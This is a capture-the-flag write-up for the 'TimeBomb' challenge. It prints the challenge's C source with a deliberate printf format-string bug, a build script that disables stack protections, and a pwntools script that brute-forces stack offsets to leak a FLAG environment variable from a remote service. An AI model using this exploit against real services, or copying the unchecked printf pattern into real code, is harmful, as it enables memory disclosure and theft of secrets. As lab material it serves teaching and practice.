



Our task is to retrieve the flag from the TimeBomb's environment before the bomb
detonates, i.e. before the process exits or crashes. A screenshot of this
challenge's description and hints are provided below:



## Enumeration

We inspect the H3XN0V4-VDI command line interface (CLI) and access the TimeBomb
application. We are greeted with the hostname and port of the TimeBomb
challenge. A screenshot is provided below:



We download the challenge container image by invoking the following:

```bash
docker pull public.ecr.aws/t0j9q6v5/dev/timebomb:v2
```

And we inspect the layers and history of the image using
[dive](https://github.com/wagoodman/dive) by invoking the following:

```bash
dive public.ecr.aws/t0j9q6v5/dev/timebomb:v2
```

`dive` provides us the following information:



We discover that `challenge.c` is stored within this container image. The
`start.sh` script is invoked when this container starts, compiles the
`challenge` binary, and hosts the challenge on port `9999`. The contents of
`challenge.c` and `start.sh` are provided below:

### challenge.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <signal.h>

void connection() {
    char *lambda_url = getenv("LAMBDA_URL");
    char *token = getenv("SECRET_TOKEN");

    if (!lambda_url || !token) {
        fprintf(stderr, "[!] Missing environment variables.\n");
        exit(1);
    }

    printf("[*] Executing Lambda...\n");

    char cmd[512];
    snprintf(cmd, sizeof(cmd),
             "curl -s -X POST %s -H 'Content-Type: application/json' -d '{\"token\":\"%s\"}'",
             lambda_url, token);

    system(cmd);
    fflush(stdout);
    exit(0);
}


void timebomb() {
    puts("[----------------------------------------]");
    puts("[  TIMEBOMB TERMINAL: MISSION INTERFACE  ]");
    puts("[----------------------------------------]");
    puts("> DEVICE ARMED: DESTRUCT SEQUENCE INITIATED");
    sleep(1);
    puts("> SECURITY BREACH DETECTED — TRACE PROTOCOL ENGAGED");
    for (int i = 5; i > 0; --i) {
        printf("> SYSTEM WIPE IN: T-minus %d seconds...\n", i);
    fflush(stdout);
    sleep(1);
}
}


void vuln() {
    char buffer[512];
    puts("[-----------------------------------------]");
    puts("[  TIMEBOMB TERMINAL: TERMINAL INTERFACE  ]");
    puts("[-----------------------------------------]");
    puts(" [CLASSIFIED] Authorization required...");
    printf("Enter your OVERRIDE CODE: ");
    fflush(stdout);
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    printf("\n[-] Done.\n");
    fflush(stdout);
    fflush(stdout);
    exit(0);
}


int main() {
    timebomb();
    vuln();

    return 0;
}
```

### start.sh

```bash
#!/bin/bash

set -e

echo "[*] Compiling challenge.c..."
gcc /home/ctf/challenge.c -o /home/ctf/challenge \
  -fno-stack-protector -z execstack -no-pie

echo "[*] Deleting challenge.c"
rm /home/ctf/challenge.c

echo "[*] Setting permissions..."
chmod 750 /home/ctf/challenge
chown root:ctf /home/ctf/challenge

echo "[*] Environment:"
echo "    LAMBDA_URL=$LAMBDA_URL"
echo "    SECRET_TOKEN=$SECRET_TOKEN"

echo "Try harder." > /etc/banner_fail

echo "[*] Starting xinetd..."
/usr/sbin/xinetd -dontfork -f /etc/xinetd.conf -filelog /tmp/xinetd.log
```

## Evaluation

The following line in `challenge.c` introduces a format string vulnerability,
such that an attacker can provide arbitrary input to a `printf` call.

```c
54     printf(buffer);
```

The vulnerability present in `challenge.c` provides an attacker with an
[[arbitrary-read-primitives#Use of Externally-Controlled Format String|arbitrary read]]
and
[[arbitrary-write-primitives#Use of Externally-Controlled Format String|arbitrary write]]
primitive.

## Exploitation

The hints provided for this challenge instruct us to extract the flag from the
`FLAG` environment variable of the `challenge` process. We can accomplish this
by using the previously mentioned format string vulnerability to scan the stack,
brute-forcing the offset of the environment variable pointer that points to the
string containing the `FLAG` environment variable.

First, we compile the `challenge` binary and extract `libc.so` and `ld-*.so`
from the container to reproduce the `challenge` process's execution environment
by invoking the following:

```bash
# Starting the container
docker run \
	--rm \
	--interactive \
	--tty \
	--entrypoint /bin/bash \
	--volume $(pwd):/tmp \
	public.ecr.aws/t0j9q6v5/dev/timebomb:v2

# Extract challenge.c from the container
cp /home/ctf/challenge.c /tmp

# Extract start.sh from the container
cp /start.sh /tmp

# Compile challenge
gcc /home/ctf/challenge.c \
	-o /home/ctf/challenge \
	-fno-stack-protector \
	-z execstack \
	-no-pie \
	-g

# Extract challenge from the container
cp challenge /tmp

# Extract libc.so.6 from the container
cp /lib/x86_64-linux-gnu/libc.so.6 /tmp

# Extract ld-2.31.so from the container
cp /lib/x86_64-linux-gnu/ld-2.31.so /tmp

# Marking binaries as executable outside the container
chmod +x challenge
chmod +x ld-2.31.so
```

### solve.py

The solution script is provided below. Executing the solution with the `LOCAL`
argument invokes the `challenge` process with a debug `FLAG` environment
variable for testing. This solution creates 200 connections to the `challenge`
target in an attempt to brute-force the location of the `FLAG` environment
variables in the stack, sending a format string with the following format on
each execution: `f"%{i}$s"`. Eventually, we receive a response from the
`challenge` process with the contents of the flag.

```python
#!/usr/bin/env python3

from pathlib import Path

from pwn import *

ADDR = "timebomb-dc33.hexnova.quest"
BINARY = "./challenge"
LD = "./ld-2.31.so"
LIBC = "./libc.so.6"
PORT = 9999
elf = context.binary = ELF(BINARY)
libc = ELF(LIBC, checksec=False)
ld = ELF(LD, checksec=False)


def conn():
    if args.LOCAL:
        pty = process.PTY
        return process(
            [ld.path, elf.path],
            stdin=pty,
            stdout=pty,
            stderr=pty,
            env={"LD_PRELOAD": libc.path, "FLAG": "FLAG-{LocalFlagForTesting}"},
        )
    else:
        return remote(ADDR, PORT)


def main():
    num_conns = 200
    ios = [conn() for _ in range(num_conns)]

    for i in range(num_conns):
        io = ios[i]

        log.info(f"Sending payload #{i}...")
        io.sendlineafter(
            b"Enter your OVERRIDE CODE: ", bytes(f"%{i}$s", encoding="ascii")
        )

        try:
            flag = io.recvuntil(b"\n")[5:-1]

            if b"FLAG" in flag:
                log.success(f"Got the flag!: {flag}")

                flag_filename = "flag.txt"
                with open(flag_filename, "wb") as f:
                    f.write(flag)

                log.info(f"Flag written to: {Path(flag_filename).resolve()}")
                return

        except EOFError:
            pass

        io.close()


if __name__ == "__main__":
    main()
```

## Solution

- [timebomb.tar.gz](timebomb.tar.gz)
